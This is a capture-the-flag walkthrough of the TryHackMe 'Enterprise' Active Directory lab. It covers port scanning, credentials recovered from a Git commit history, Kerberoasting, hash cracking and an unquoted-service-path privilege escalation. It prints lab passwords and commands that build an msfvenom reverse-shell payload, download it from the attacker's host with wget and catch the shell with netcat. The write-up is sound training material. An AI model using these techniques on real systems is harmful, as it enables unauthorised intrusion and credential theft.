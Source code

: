 ```yaml
---
title: Enterprise Tryhackme Writeup
published: true
---
```


Today I bring you the writeup of [Enterprise](https://tryhackme.com/room/enterprise), a tryhackme machine focused on Active Directory exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP -Pn
```

With -p- we indicate that we want it to look at all ports, -Pn is not to make ping requests since it is a windows and blocks them and the --min-rate 5000 to do it very fast.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/1.png)

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,7990,9389,47001,49664,49665,49666,49668,49669,49670,49672,49676,49701,49710,49833 --min-rate 5000 IP -Pn
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/2.png)

Now, let's add to /etc/hosts the domain name.

```shell
IP lab.enterprise.thm
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/7.png)

After a long time listing the different services of the machine we found this web where we are told that they are passed to [github](https://github.com/Enterprise-THM), let's check this github.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/3.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/4.png)

We see a [person](https://github.com/Nik-enterprise-dev) on that github, let's take a look at theirs.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/5.png)

It has a repository, if we look at the [history](https://github.com/Nik-enterprise-dev/mgmtScript.ps1/commit/bc40c9f237bfbe7be7181e82bebe7c0087eb7ed8) of that repo we find a username and password.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/6.png)

With the information we have and after listing several services with that name and password, we are going to use the impacket module GetUsersSPNs

This module will try to find Service Principal Names that are associated with normal user account.

Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request

will encrypt the ticket with the account the SPN is running under, this could be used for an offline

bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs.

```shell
GetUserSPNs.py lab.enterprise.thm/nik:ToastyBoi!
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/8.png)

We have found a service called bitbucket, we are going to take its NTLM hash and then crack it.

```shell
GetUserSPNs.py lab.enterprise.thm/nik:ToastyBoi! -request
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/9.png)

Let's save that hash and use hashcat to crack it.

```shell
hashcat -a 0 -m 13100 hash /home/m4luk0/wordlists/rockyou.txt
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/10.png)

Let's try to connect via RDP to the machine.

```shell
xfreerdp /u:bitbucket /p:littleredbucket /v:lab.enterprise.thm /dynamic-resolution
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/11.png)

If we enumerate the machine, we can find the [unquoted service](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#unquoted-service-paths) vulnerability wich is based on the fact that when windows has to read a path with spaces, i.e. C:\Windows\Hello World\test.exe windows will execute hello.exe, world.exe and then it will enter the directory; then, if we create a malicious exe called hello.exe it will execute it before entering that directory.

In windows:

```shell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/12.png)

We see that there is a directory called Zero Tier One, we will exploit the vulnerability explained above, we will create on our machine a malicious exe that will send us a shell.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o Zero.exe
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/13.png)

Now we are going to create a python server to pass it to windows.

```shell
python3 -m http.server
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/14.png)

Let's set the port to listen.

```shell
nc -lvp PORT
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/15.png)

In windows go to the folder and download the exe.

```shell
cd "C:\Program Files (x86)\Zero Tier"
wget http://10.8.155.220:8000/Zero.exe -o Zero.exe
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/16.png)

Now having everything ready we will only have to restart the service.

```shell
Start-Service -name "zerotieroneservice"
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/17.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/18.png)

And so we would finish with this machine, thanks for reading.
